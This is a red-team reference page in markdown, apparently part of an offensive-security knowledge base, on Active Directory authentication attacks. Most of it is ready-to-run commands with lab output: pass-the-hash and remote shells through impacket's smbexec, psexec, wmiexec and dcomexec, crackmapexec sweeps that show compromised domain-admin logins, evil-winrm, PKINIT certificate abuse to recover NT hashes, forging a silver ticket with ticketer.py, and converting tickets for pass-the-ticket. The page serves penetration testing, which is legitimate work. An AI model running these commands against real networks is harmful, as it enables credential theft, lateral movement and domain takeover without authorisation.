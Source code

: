 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# AD Authentication
## Tags
<details><summary>Tags (Click to expand)</summary><p>

Environment

		#@active #@directory #@activedirectory #@microsoft

Context

		#@pass #hash #@passthehash #@authenticate #@authentication #@KRB5CCNAME #@ccache #@kerberos #@ntlm #@kirbi #@ticket #@passtheticket #@auth

Tools

		#@impacket #@getst.py #@getst #@rubeus #@ticketconverter.py #@ticketconverter #@mimikatz

</p></details>

## References
* Flangvik PKI Abuse cheatsheet- <br />[https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250](https://gist.github.com/Flangvik/15c3007dcd57b742d4ee99502440b250)

## Overview

* Many of the authentications below include the following TTPs:
*  [`Command and Scripting Interpreter` TTP](TTP/T1059_Command_and_Scripting_Interpreter/T1059.md)
	* When executing on a target system with PowerShell, Windows Command Shell, Unix targets' bash, etc.
* [`Valid Accounts -Local Accounts` TTP](TTP/T1078_Valid_Accounts/003_Local_Accounts/T1078.003.md)
	* Threat actors may authenticate with local accounts rather than through domain accounts
* [`Software Deployment Tools` TTP](TTP/T1072_Software_Deployment_Tools/T1072.md)
	* Leveraging access to compromised software deployment systems (e.g., Altiris) to pivot in the network.


#### NTLM
* General Methods
	* Pass-The-Hash (PTH) ([`Use Alternate Authentication Material - Pass the Hash` TTP](TTP/T1550_Use_Alternate_Authentication_Material/002_Pass_the_Hash/T1550.002.md))

##### From a Linux Machine

* SMB
	* Shell intended for file-transfer only
		* <details><summary>impacket's smbclient.py ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>
			* Examples
				* Example 1: Password-Based

						smbclient.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET
	* Sem-interactive Shell (Execution)
		* <details><summary>impacket's smbexec.py ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>
			* Examples
				* Example 1: Password-Based

						smbexec.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET
		* <details><summary>impacket's psexec.py  ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>
			* Examples
				* Example 1: Password-based authentication

						psexec.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET
	* Execute commands without a continuous shell
		* <details><summary>crackmapexec (Click to expand)</summary><p>
			* Examples
				* Example 1: Execute Command, Password Authentication

						crackmapexec smb -d $DOMAIN -u $DOMAIN_USER -p $PASSWORD $TARGET -x <command>
* RPC
	* Semi-interactive Shell (Execution)
		* <details><summary>impacket's dcomexec.py ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>
			* Note: The tool did not work in lab testing using Windows 11 and Server 2019 targets.
			* References
				* [https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/dcomexec.py)
				* [https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/](				https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/)
			* Examples
				* Example 1: ShellWindows (default) (9BA05972-F6A8-11CF-A442-00A0C90A8F39)

						dcomexec.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET -object ShellWindows
				* Example 1: MMC20.Application (49B2791A-B1AE-4C90-9B8E-E860BA07F889)

						dcomexec.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET -object MMC20
				* Example 3: ShellBrowserWindow (C08AFD90-F2A1-11D1-8455-00A0C91F3880)

						dcomexec.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET -object ShellBrowserWindow
	* Query RPC
		* <details><summary>impacket's rpcclient.py ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>
			* Examples
				* Example 1: Password-Based

						rpcclient.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET
* RDP ([`Remote Services` TTP](TTP/T1021_Remote_Services/T1021.md))
	* <details><summary>impacket's rdp_check.py  ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>
		* Examples
			* Example 1: Password-Based

					rdp_check.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET
				* Example Output

						root@jack-Virtual-Machine:~# rdp_check.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET
						Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

						[*] Access Granted
	* <details><summary>crackmapexec (Click to expand)</summary><p>
		* Examples
			* Example 1: Password-Based, Capture Screenshots

					crackmapexec rdp -u $DOMAIN_USER -p $PASSWORD -d $DOMAIN $TARGET
				* Targets can be a subnet or a single system
				* Example Output

						root@jack-Virtual-Machine:~# cme rdp -u $DOMAIN_USER -p $PASSWORD -d $DOMAIN --screenshot 10.0.0.0/24
						RDP         10.0.0.101      3389   WIN11            [*] Windows 10 or Windows Server 2016 Build 22000 (name:WIN11) (domain:microsoftdelivery.com) (nla:True)
						RDP         10.0.0.50       3389   APP              [*] Windows 10 or Windows Server 2016 Build 17763 (name:APP) (domain:microsoftdelivery.com) (nla:True)
						RDP         10.0.0.1        3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:microsoftdelivery.com) (nla:True)
						RDP         10.0.0.3        3389   CA               [*] Windows 10 or Windows Server 2016 Build 17763 (name:CA) (domain:microsoftdelivery.com) (nla:True)
						RDP         10.0.0.2        3389   DC02             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC02) (domain:microsoftdelivery.com) (nla:True)
						RDP         10.0.0.101      3389   WIN11            [+] microsoftdelivery.com\domain_admin:P@ssw0rd (Pwn3d!)
						RDP         10.0.0.50       3389   APP              [+] microsoftdelivery.com\domain_admin:P@ssw0rd (Pwn3d!)
						RDP         10.0.0.1        3389   DC01             [+] microsoftdelivery.com\domain_admin:P@ssw0rd (Pwn3d!)
						RDP         10.0.0.3        3389   CA               [+] microsoftdelivery.com\domain_admin:P@ssw0rd (Pwn3d!)
						RDP         10.0.0.101      3389   WIN11            Screenshot saved /root/.cme/screenshots/WIN11_10.0.0.101_2022-08-18_171433.png
						RDP         10.0.0.2        3389   DC02             [+] microsoftdelivery.com\domain_admin:P@ssw0rd (Pwn3d!)
						RDP         10.0.0.50       3389   APP              Screenshot saved /root/.cme/screenshots/APP_10.0.0.50_2022-08-18_171437.png
						RDP         10.0.0.3        3389   CA               Screenshot saved /root/.cme/screenshots/CA_10.0.0.3_2022-08-18_171443.png
						RDP         10.0.0.2        3389   DC02             Screenshot saved /root/.cme/screenshots/DC02_10.0.0.2_2022-08-18_171445.png
* LDAP
	* <details><summary>impacket's smbclient.py ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>
		* Examples
			* Example 1: Password-Based

					.
* WMI ([`Remote Services` TTP](TTP/T1021_Remote_Services/T1021.md))
	* <details><summary>impacket's wmiexec.py ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>
		* Examples
			* Example 1: Password-Based

					wmiexec.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$TARGET
				* Example Output

						root@jack-Virtual-Machine:~/openvpn# wmiexec.py $DOMAIN/$DOMAIN_USER:$PASSWORD@$DOMAIN_CONTROLLER
						Impacket v0.10.1.dev1+20220720.103933.3c6713e - Copyright 2022 SecureAuth Corporation

						[*] SMBv3.0 dialect used
						[!] Launching semi-interactive shell - Careful what you execute
						[!] Press help for extra shell commands
* WinRM ([`Remote Services` TTP](TTP/T1021_Remote_Services/T1021.md))
	* <details><summary>evil-winrmm -<br />[https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm) (Click to expand)</summary><p>
		* Port
		* Note: This tool requires that "ruby-dev" is installed on the operating system to be effectively installed (that is, `apt install ruby` normally will not work for acquiring this tool).

				evil-winrm -i $TARGET_UP -u $DOMAIN_USER -p $PASSWORD

###### Authentication using certificate on Linux

1. Request an TGT on behalf of the account 
	* <details><summary>gettgtpkinit (Click to expand)</summary><p>
		* Example

			python3 gettgtpkinit.py $DOMAIN/$DOMAIN_USER -pfx-base64 $(cat <base64-cert.file>) -dc-ip $DC_IP out_tgt.ccache
1. Set the env var to the output TGT ccache

		export KRB5CCNAME=out_tgt.ccache
1. Get an NTHash for Pass-The-Hash from TGT, AS-REP-KEY-ENC is from the output of the command above.
	* <details><summary>getnthash.py (Click to expand)</summary><p>

			python3 getnthash.py -key <AS-REP-ENC-KEY> -dc-ip $DC_IP $DOMAIN/$DOMAIN_USER

##### Convert NTLM to Kerberos Silver Ticket
* References
	* NotMedic's Github: NetNTLMtoSilverTicket -<br />[https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
* Requirements
	* SPN of the service you want to access
	* domain SID
	* domain user account SID and account name with local admin access
	* domain group that user is a member of if it's group-based local admin
		* For the service, the most common will be cifs/ as it maps back to the HOST/ service
* Process
	1. Generate a Silver Ticket
		* <details><summary>Impacket's ticketer.py ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md)) (Click to expand)</summary><p>

				./ticketer.py -nthash 09e55a127f3d4e4957c77de30000502a -domain-sid S-1-5-21-7375663-6890924511-1272660413 -domain DOMAIN.COM -spn cifs/SERVER.DOMAIN.COM -user-id 123456 -groups 4321 username
	1. Set the generated ccache file to the appropriate environment variable

				export KRB5CCNAME=/root/Assessments/NTLMTest/USERNAME.ccache

##### Certificates ([`Use Alternate Authentication Material` TTP](TTP/T1550_Use_Alternate_Authentication_Material/T1550.md))

* Request an TGT on behalf of the account 
	* <details><summary>gettgtpkinit (Click to expand)</summary><p>

			python3 gettgtpkinit.py $DOMAIN/$DOMAIN_USER -pfx-base64 $(cat <base64-cert.file>) -dc-ip $DC_IP out_tgt.ccache
* Set the env var to the output TGT ccache

		export KRB5CCNAME=out_tgt.ccache
* Get an NTHash for Pass-The-Hash from TGT, AS-REP-KEY-ENC is from the output of the command above.
	* <details><summary>getnthash (Click to expand)</summary><p>

			python3 getnthash.py -key <AS-REP-ENC-KEY> -dc-ip $DC_IP $DOMAIN/$DOMAIN_USER
* Certificate Authentication When PKINIT Is Not Supported
	* References
		* [https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)
* Smart Card Emulation
	* RDP/Citrix ([`Remote Services` TTP](TTP/T1021_Remote_Services/T1021.md))
		* PIVert (no physical smart card required) -<br />[https://github.com/CCob/PIVert](https://github.com/CCob/PIVert)
* Manual
	* <details><summary>References (Click to expand)</summary><p>
		* [https://twitter.com/an0n_r0/status/1560699385545195521](https://twitter.com/an0n_r0/status/1560699385545195521)
	* <details><summary>Process (Click to expand)</summary><p>
		1. Use a virtual  to emulate a smart card reader through softrware in the PC/SC Smart Card Daemon. Just add vpcd into pcscd.
			* vsmartcard -<br />[https://github.com/frankmorgner/vsmartcard.git](https://github.com/frankmorgner/vsmartcard.git)
				* References
					* Frank Morgner Blog: Virtual Smart Card -<br />[https://frankmorgner.github.io/vsmartcard/virtualsmartcard/README.html](https://frankmorgner.github.io/vsmartcard/virtualsmartcard/README.html)
		1. Insert a proper smart card into the virtual smart card reader device.
			* Simulated
				* PIV with PivApplet
					* A Personal Identity Verification compatible JavaCard applet 
					* References
						* https://github.com/OpenSC/OpenSC/wiki/Smart-Card-Simulation#simulating-piv, 
				* Use jCardSim with this 
					* [https://jcardsim.org]
		1. If the PivApplet smartcard is initialized in the virtual reader, it is possible to upload the pfx logon certificate (with the private key) to it.
			* To interact with PivApplet in the reader:
				* Yubico -<br />[https://developers.yubico.com/yubico-piv-tool/](https://developers.yubico.com/yubico-piv-tool/)
		1. Local setup complete. Now pass throuh a local smart card (even virtual) for remote logins (e.g., xfreerdp /smartcap option)
			* FreeRDP -<br />[https://github.com/FreeRDP/FreeRDP](https://github.com/FreeRDP/FreeRDP)

					xfreerdp /smartcard
				* Now everything is prepared locally. FreeRDP  supports passing through a local smartcard device (even virtual) for remote logons (use xfreerdp /smartcard option), so nothing stops us from authenticating into an RDP session
				* Use a logon certificate.


##### From a Windows Machine
###### Local
###### Remote

#### Kerberos
##### From a Linux Machine

* <details><summary>Process (Click to expand)</summary><p>
	1. Retrieve the `.ccache` file
		* Recommended: Impacket: getST.py ([Impacket Tool Guide](Testaments_and_Books/Redvelations/Tools/Active_Directory_and_Windows/impacket.md))

				getST.py -spn host/<server_FQDN> $DOMAIN/<MACHINE-Acct_escaped_\$>:$PASSWORD -impersonate DOMAIN_ADMIN_USER_NAME
	1. Inject the ticket
		* Export ccache to environment variables

					export KRB5CCNAME=DOMAIN_ADMIN_USER_NAME.ccache
		* Tool adjustments
			* Many tools take these two flags to switch to kerberos:
				* `-k` - The explicit Kerberos Auth flag
				* `-n` or `-no-pass` - The flag for "no password prompt"
	1. Authenticate
* <details><summary>Other (Click to expand)</summary><p>
	* RC4 Keys Enabled (NT Hash)
		* "Overpass the hash"
	* Dicovered Credentials
		* LM
		* Pass the Cache (Discovered Kerb)
	* Pass the Hash
		1. Pass the Key
			* Requires DA?
			* NT Hash

					getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
			* AES Key
			
					getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
		1. Pass the Ticket ([`Use Alternate Authentication Material - Pass the Ticket` (Defense Evasion) TTP](TTP/T1550_Use_Alternate_Authentication_Material/003_Pass_the_Ticket/T1550.003.md), [`Use Alternate Authentication Material - Pass the Ticket` TTP](TTP/T1550_Use_Alternate_Authentication_Material/003_Pass_the_Ticket/T1550.003.md))
			* Convert formats between Windows/Unix
				* Windows to UNIX
				
						ticketConverter.py $ticket.kirbi $ticket.ccache
				* UNIX to Windows
					
						ticketConverter.py $ticket.ccache $ticket.kirbi

* [https://github.com/NotMedic/NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

##### From a Windows Machine
###### Local
* Tools: Mimikatz, Rubeus
* The tools inject the ticket into memory, where the native Microsoft tools then use the ticket as normal.

###### Remote





